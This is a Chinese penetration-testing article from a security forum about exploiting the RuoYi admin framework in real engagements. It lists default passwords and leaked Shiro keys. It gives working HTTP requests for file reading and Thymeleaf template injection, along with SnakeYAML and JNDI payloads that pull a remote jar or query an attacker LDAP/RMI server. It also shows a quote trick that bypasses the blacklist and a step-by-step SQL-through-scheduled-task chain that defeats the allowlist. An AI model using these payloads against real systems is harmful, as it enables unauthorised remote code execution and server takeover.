# 若依在真实攻防下的总结-先知社区

> **来源**: https://xz.aliyun.com/news/17652  
> **文章ID**: 17652

---

# **一、指纹识别**

**指纹如下，若依系统验证码较特殊，为运算号**


# 二、弱口令

默认密码为admin/admin123 ry/admin123

低版本可以直接访问到druid 默认密码为ruoyi/123456或者admin/123456

高版本需要认证才能访问

# 三、前台Shiro默认key漏洞

版本：RuoYi <= v4.3.0

默认密钥

fCq+/xW488hMTCD+cmJ3aQ== <=4.3

zSyK5Kp6PZAAjlT+eeNMlg== >4.3 但是这个密钥在4.5之后的某个版本被修复了

使用工具shiro反序列化，AES加密即可getshell



# 四、后台任意文件读取+shiro组合拳

版本：RuoYi <= v4.5.0

https://xxx.xxx.xxx.xxx/common/download/resource?resource=/profile/../../../../etc/passwd





需要登入后台才可以使用

如果可以下载，即存在任意文件读取漏洞，window系统下没啥用，

linux下可以读取.bash\_histroy或者/proc/self/cmdline获取jar包路径，再读取jar包下的shirokey，进而rce

# 五、后台Thymeleaf SSTI

版本：RuoYi <= v4.7.1

在较低版本时可能不存在这个接口，具体实测一下

直接打即可，linux反弹shell时需base64编码

```
POST /monitor/cache/getNames HTTP/1.1
Host: 192.168.137.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=8cde9f76-d990-4a81-b072-5782c5185ffe
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

fragment=__${T%20(java.lang.Runtime).getRuntime().exec('calc')}__::.x
```



# 六、后台计划任务getShell

分为好多版本，最后都是打JNDI的Snakeyaml链子（也可以打其他链子，但是可能不同版本可以使用的链子不一样，实测snakeyaml到最新版本也可以打）

## **版本：RuoYi < v4.6.2**

登入后台后在定时任务这新建任务，填写调用目标字符串即可



```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://192.168.3.3:2333/yaml-payload.jar"]]]]')
或者
org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://127.0.0.1:1099/refObj')
javax.naming.InitialContext.lookup('ldap://127.0.0.1:9999/#Exploit')
```

推荐使用工具https://github.com/Bl0omZ/JNDIEXP

```
java -jar JNDIInject-1.2-SNAPSHOT.jar -i xxx.xxx.xxx.xxx
```



### 1、jndi注入打snakeyaml

```
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/snakeyaml/http://127.0.0.1:8080/exp.jar')
```

### 2、直接打snakeyaml

如果直接用org**.**yaml**.**snakeyaml**.**Yaml**.**load的话就在url中填上,http//vps/ruoyi.jar,然后在vps中起一个监听即可

```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:8080/yaml-payload.jar"]]]]')
```

jar包可以选择别人已经制作好的内存马

https://github.com/lz2y/yaml-payload-for-ruoyi



还可以使用yaml-payload去执行命令

https://github.com/artsploit/yaml-payload

更改exec中的字符串为我们想要执行的命令，注意linux反弹shell需要base64编码



```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

编译后，放到vps上远程请求即可

## **版本：4.7.2>RuoYi >=4.6.2**

* 定时任务屏蔽ldap远程调用
* 定时任务屏蔽http(s)远程调用
* 定时任务屏蔽rmi远程调用

在检测之后会对字符串进行处理，如果有单引号会将其替换为空，所以只需要加上单引号即可bypass

```
org.springframework.jndi.JndiLocatorDelegate.lookup('r'm'i://127.0.0.1:1099/refObj')
```

## 版本：**RuoYi** <=4.7.8

新版本添加了过滤，为白名单，仅允许调用com.ruoyi下的包



因为过滤是在创建任务或者修改任务时过滤的

同时genTableServiceImpl里面有一个执行sql语句的功能，那么我们是不是可以通过genTableServiceImpl去修改数据库中的数据，改为我们的恶意代码，进而rce呢。

复现步骤：

### 1、创建计划任务

```
POST /monitor/job/add HTTP/1.1
Host: 192.168.137.1
Content-Length: 146
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.137.1
Referer: http://192.168.137.1/monitor/job/add
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=b4868e8e-f1a7-4d2a-93e5-a0e1a17ef8e4
Connection: close

createBy=admin&jobName=test1&jobGroup=DEFAULT&invokeTarget=ryTask.ryParams('ry')&cronExpression=*+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&remark=
```

首先创建两个计划任务，重复发送以上包两次即可

### 2、修改计划任务

比如我们创建的两个任务的id为103和104，就去修改103的内容，把 WHERE job\_id=的值改为104

```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7863726c67696e75666a2e64677268332e636e2729 WHERE job_id = 104;')
```

其中0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7863726c67696e75666a2e64677268332e636e2729的内容为javax.naming.InitialContext.lookup('ldap://xcrlginufj.dgrh3.cn')的hex编码，将其改为我们的恶意ladp服务器即可



```
POST /monitor/job/edit HTTP/1.1
Host: 192.168.137.1
Content-Length: 370
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.137.1
Referer: http://192.168.137.1/monitor/job/edit/104
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=b4868e8e-f1a7-4d2a-93e5-a0e1a17ef8e4
Connection: close

jobId=103&updateBy=admin&jobName=test1&jobGroup=DEFAULT&invokeTarget=genTableServiceImpl.createTable('UPDATE+sys_job+SET+invoke_target+%3D+0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7863726c67696e75666a2e64677268332e636e2729+WHERE+job_id+%3D+104%3B')&cronExpression=*+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=1&remark=
```

再去执行103的计划即可

```
POST /monitor/job/run HTTP/1.1
Content-Length: 370
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.137.1
Referer: http://192.168.137.1/monitor/job/edit/104
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=b4868e8e-f1a7-4d2a-93e5-a0e1a17ef8e4
Connection: close
Host: 192.168.137.1

jobId=103
```

执行完之后我们就发现104的内容变为了我们的恶意命令



```
POST /monitor/job/run HTTP/1.1
Content-Length: 370
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.137.1
Referer: http://192.168.137.1/monitor/job/edit/104
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=b4868e8e-f1a7-4d2a-93e5-a0e1a17ef8e4
Connection: close
Host: 192.168.137.1

jobId=104
```

然后执行104去打snakeyaml即可

​

# 七、ruoyi-vue利用小技巧

在渗透中大家应该都有遇到过这样的情况，碰到若依的后台api



正常方法是找到前端，去尝试有无弱口令，但是在实际场景中不太容易找到前端，而且由于ruoyi的api都需要验证登入，而且还具有验证码，于是我们就可以自己搭建一个前端尝试去打。

去<https://gitee.com/y_project/RuoYi-Vue>上下载一个源码。



只需要在target这里写好目标名称，然后npm run dev即可。

另外Air也在实战中碰到过一个情况,访问目标地址时跳出一个紫色的正在加载系统资源的样式，打的多的师傅们就知道这就是若依，但是访问时发现其已经被魔改的不成样子，甚至连个登入框都没有，随即翻看js代码，找到后端的api地址，发现其后端登入密码为弱口令，且版本较低，直接就可以打上面的漏洞RCE。



# 八、若依不出网打法

我看网上有一些师傅讲过若依不出网的话只能去尝试看看mysql有没有文件写入的权限，尝试写入恶意文件去用，但是其实ruoyi本身就有文件上传的，且这个接口一直都在，但是这个后缀有限制，上传不了jar



但是其实无所谓，我们最后需要使用snakeyaml去load其中的内容

